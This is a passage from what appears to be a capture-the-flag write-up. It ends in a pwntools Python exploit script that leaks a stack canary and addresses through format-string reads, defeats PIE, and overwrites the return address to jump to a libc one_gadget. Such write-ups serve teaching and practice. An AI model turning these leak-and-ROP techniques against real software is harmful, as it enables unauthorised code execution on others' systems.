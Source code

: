 ![image-20210422164642198](one_gadget.png)

5. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *

# ================================ #
CANARY_OFF: int     = 0xb
HARV_OFF: int       = 0xd
HARV_FROM_BASE: int = 0x77
CALL_HARV_MAIN: int = 0x43
RIP_OFF: int        = 0x38
PRINTF_OFF: int     = 0x10
ONE_GADGET: int     = 0x4f3d5
# ================================ #

def prompt(r: tubes.tube.tube) -> None:
    r.recvuntil(b'> ')

def fix_pie(r: tubes.tube.tube) -> None:
    prompt(r)
    r.sendline(b'2')
    r.recvuntil(b'have: ')
    num: int = int(r.recvuntil(b' ').decode())
    prompt(r)
    r.sendline(b'y')
    prompt(r)
    r.sendline(str(num-21))

def format_leak(r: tubes.tube.tube, off: int) -> int:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(f'%{off}$p'.encode())
    r.recvuntil(b'choice is: ')
    return int(r.recvuntil(b'\x1b[1;31m')[:-7].decode(), 16)

def raw_format_leak(r: tubes.tube.tube, off: int) -> int:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(f'%{off}$s'.encode())
    r.recvuntil(b'choice is: ')
    return u64(r.recvuntil(b'\x1b[1;31m')[:-7].ljust(8, b'\x00'))

def rop_to(r: tubes.tube.tube, target: int, canary: int, rbp: int = u64(b'x'*8), pad: bytes = b'x') -> None:
    prompt(r)
    r.sendline(b'3')
    prompt(r)
    r.sendline(pad[:1]*(RIP_OFF-0x10) + p64(canary) + p64(rbp) + p64(target))

```